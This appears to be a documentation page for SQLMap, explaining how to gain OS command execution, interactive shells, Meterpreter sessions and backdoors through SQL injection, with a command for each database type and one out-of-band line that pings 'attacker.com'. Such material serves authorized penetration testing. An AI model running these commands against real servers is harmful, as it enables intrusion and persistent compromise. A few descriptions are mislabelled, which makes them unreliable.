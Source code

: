 ```yaml
---
title: OS Command Execution
description: Learn how to execute operating system commands through SQL injection vulnerabilities using SQLMap
---
```


SQLMap provides several methods to execute operating system commands on the target server through SQL injection vulnerabilities. These techniques depend on the database management system and the privileges available.

## Basic OS Command Execution

### Single Command Execution (--os-cmd)

To execute a single operating system command:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="whoami"
```

This executes the specified command and returns its output. It's useful for quick verification of command execution capabilities.

### Interactive OS Shell (--os-shell)

To obtain an interactive shell:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell
```

This provides an interactive command prompt where you can execute multiple commands on the target system.

## DBMS-Specific Techniques

Different database systems have different mechanisms for command execution:

### MySQL

For MySQL, SQLMap typically uses:
- `SELECT ... INTO OUTFILE` to write a web shell
- User-defined functions (UDFs) if the database user has sufficient privileges

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=mysql
```

### Microsoft SQL Server

For SQL Server, SQLMap uses:
- `xp_cmdshell` extended stored procedure
- CLR assemblies if `xp_cmdshell` is disabled

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=mssql
```

### PostgreSQL

For PostgreSQL, SQLMap uses:
- `COPY TO/FROM PROGRAM` functionality
- Custom user-defined functions

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=postgresql
```

### Oracle

For Oracle, SQLMap uses:
- Java stored procedures
- External tables
- PL/SQL packages

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=oracle
```

## Advanced Command Execution Options

### Specifying Command Prompt Type

You can specify the type of shell to use:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --os-pwn --msf-path=/path/to/metasploit --tmp-path=/tmp
```

### Out-of-Band Command Execution

For situations where direct command output retrieval is not possible:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="ping -c 4 attacker.com" --technique=T
```

This executes commands that produce observable side effects (like network connections) rather than direct output.

## Establishing Persistent Access

### Meterpreter Shell (--os-pwn)

To establish a Meterpreter session using Metasploit:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This creates a more sophisticated backdoor using Metasploit's capabilities.

### Custom Backdoor (--os-smbrelay)

To create a custom backdoor:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```


## Troubleshooting Command Execution

If command execution fails, try these approaches:

1. Verify the database user has sufficient privileges
2. Try different command execution techniques with `--technique`
3. Use stacked queries if supported by the injection point
4. Try different output retrieval methods with `--tmp-path`
5. Check if antivirus or security controls are blocking execution

Remember that command execution capabilities vary significantly based on:
- The specific DBMS version
- Database user privileges
- Server configuration
- Security controls in place
